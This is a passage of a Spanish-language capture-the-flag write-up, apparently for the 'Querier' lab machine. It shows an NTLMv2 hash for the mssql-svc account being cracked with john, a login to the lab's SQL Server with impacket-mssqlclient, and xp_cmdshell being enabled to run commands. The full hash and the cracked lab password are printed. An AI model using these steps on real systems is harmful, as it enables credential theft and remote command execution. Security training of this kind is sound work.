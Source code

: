 Tenemos el hash NTLM-v2 del usuario ``mssql-svc``, vamos a crackearlo john.

````bash
❯ john --show hash
mssql-svc:corporate568:QUERIER:aaaaaaaaaaaaaaaa:62a9279b131c5842829f5dafb121eee7:0101000000000000006f0e01d9fad80171ddca70e4f9acb9000000000100100075006400500048007a004b0077004c000300100075006400500048007a004b0077004c000200100051006900700052005a0062007a0057000400100051006900700052005a0062007a00570007000800006f0e01d9fad80106000400020000000800300030000000000000000000000000300000295e0cd3610d01db905acbe05f2fab52f3cfa4fa76e4e00a230d2f33c30d7d160a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000

1 password hash cracked, 0 left
`````

Con esta nueva credencial del usuario ``mssql-sv`` y su contraseña ``corporate568`` usaremos de nuevo la tool impacket-mssqlclient.

````bash
❯ impacket-mssqlclient WORKGROUP/mssql-svc@10.10.10.125 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
`````


Las credenciales son validas y con este usuario si se puede habilitar el xp_cmdshell.

````bash
SQL> enable_xp_cmdshell
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> 
`````

Comprobamos ejecutando un comando.

````bash
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

querier\mssql-svc                                                                  

NULL                                                                               
`````
